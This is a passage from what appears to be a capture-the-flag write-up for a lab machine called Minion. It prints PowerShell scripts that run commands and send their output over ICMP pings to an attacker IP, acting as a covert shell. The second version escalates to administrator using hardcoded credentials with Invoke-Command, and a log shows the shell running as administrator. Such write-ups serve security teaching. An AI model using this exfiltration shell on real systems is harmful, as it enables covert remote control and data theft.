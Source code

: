 ```

$cmd="{cmd}"
$s=1000
$ip='10.10.14.6'
$r=[System.Text.Encoding]::ASCII.GetBytes((iex -command $cmd 2>&1|out-string))
$ping=New-Object System.Net.NetworkInformation.Ping
$opts=New-Object System.Net.NetworkInformation.PingOptions
$opts.DontFragment=$true
$i=0
while ($i -lt $r.length) {
    $ping.send($ip,5000,$r[$i..($i+$s)],$opts)
    $i=$i+$s
}

```

It takes a command and runs it using `iex` (short for `Invoke-Expression`). I’ll update that to:

```

$s=1000
$ip='10.10.14.6'
$pass="1234test"|ConvertTo-SecureString -AsPlainText -Force
$cred=New-Object System.Management.Automation.PSCredential("minion\\administrator", $pass)
$r=[System.Text.Encoding]::ASCII.GetBytes((invoke-command -computername localhost -credential $cred -scriptblock {{ {cmd} }}|out-string))
$ping=New-Object System.Net.NetworkInformation.Ping
$opts=New-Object System.Net.NetworkInformation.PingOptions
$opts.DontFragment=$true
$i=0
while ($i -lt $r.length) {
    $ping.send($ip,5000,$r[$i..($i+$s)],$opts)
    $i=$i+$s
}

```

This one instead creates a `PSCredential` object with the Administrator’s creds, and then uses `Invoke-Command` to run a command as Administrator.

With the new shell, commands are executed as administrator:

```

oxdf@hacky$ sudo python icmp_shell_admin.py 
Minion> whoami
minion\administrator

```

If I try to run `root.txt` from any random directory, it accuses me of cheating:

```

Minion> \users\administrator\desktop\root.exe
Are you trying to cheat me?

```
